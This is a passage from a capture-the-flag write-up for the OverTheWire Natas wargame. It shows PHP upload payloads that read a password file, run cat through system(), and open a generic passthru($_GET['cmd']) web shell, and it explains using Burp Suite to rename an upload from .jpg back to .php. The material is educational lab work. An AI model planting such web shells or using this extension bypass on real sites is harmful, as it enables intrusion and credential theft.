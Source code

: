 ```
<?php
readfile('/etc/natas_webpass/natas13');
?>
```

[readfile()]: http://php.net/manual/en/function.readfile.php

We could also use a [system] command:

```php
<?php
system("cat /etc/natas_webpass/natas13");
?>
```

[system]: http://php.net/manual/en/function.system.php

Or we could even use [passthru] again:

```php
 <?php
 passthru($_GET['cmd']);
 ?>
```
Any of these exploits will work.





Now, let's work our way around the fact that the browser will attempt to change our script extension from *php* to *jpg*.

There are several ways to fix this. An easy way is to use a proxy or extension, such as [Burp Suite] or [FireBug] to change the filename before it is sent to the server.

We use *Burp* and the attack is stated in the following steps:

1. Our exploit script in PHP is uploaded by the server and renamed with a random string and a *jpg* extension.

2. We intercept the request and change the name of the file back to the name of the script with *php* extension.

3. We send it to the server, which calls the function *MakeRandomPathFromFilename("upload","exploit.php")*. This is sent to the function MakeRandomPath('upload', '.php').

4. The server returns the link */upload/randomString.php*, which runs our exploit and returns the password.


#### Firing up Burp:

[Burp Suite]: http://portswigger.net/burp/
[FireBug]: http://getfirebug.com/

If this is your first time with Burp, [this is how you run it]. Burp works as an HTTP proxy server, where all HTTP/S traffic from your browser passes through it. I will show in details how to do this in a *nix system.


[this is how you run it]: http://portswigger.net/burp/help/suite_gettingstarted.html

First, we lauch Burp:

```sh
$ java -jar -Xmx1024m /path/to/burp.jar
```


[Wargames]: http://overthewire.org/wargames/
[Natas]: http://overthewire.org/wargames/natas/
[robots.txt]: http://en.wikipedia.org/wiki/Robots_exclusion_standard
[referer]: http://en.wikipedia.org/wiki/HTTP_referer
[tampermonkey]: https://chrome.google.com/webstore/detail/tampermonkey/dhdgffkkebhmkfjojejmpbldmpobfkfo?hl=en
[modify-headers]: https://chrome.google.com/webstore/detail/modify-headers-for-google/innpjfdalfhpcoinfnehdnbkglpmogdi?hl=en-US
[edit this cookie]: http://www.editthiscookie.com/start/
[strrev]: http://php.net/manual/en/function.strrev.php
[passthru]: http://php.net/manual/en/function.passthru.php
[OS command injection]: https://www.owasp.org/index.php/OS_Command_Injection
[preg_match]: http://php.net/manual/en/function.preg-match.php
[SQL Injection]: https://www.owasp.org/index.php/SQL_Injection
[SQL wildcards and keywords]: http://www.w3schools.com/sql/sql_wildcards.asp
[SUBSTRING]: http://www.1keydata.com/sql/sql-substring.html
[request]: http://docs.python-requests.org/en/latest/user/quickstart/
[command substitution]: http://www.tldp.org/LDP/abs/html/commandsub.html
[sleep()]: http://dev.mysql.com/doc/refman/5.0/en/miscellaneous-functions.html#function_sleep
[is_numeric]: http://php.net/manual/en/function.is-numeric.php
[SESSION_ID]: http://en.wikipedia.org/wiki/Session_ID
[$_REQUEST]: http://php.net/manual/en/reserved.variables.request.php
[session_starts()]: http://php.net/manual/en/function.session-start.php
[source code is available]: https://github.com/mvonsteinkirch/CTFs-Gray-Hacker-and-PenTesting/tree/master/Web_Exploits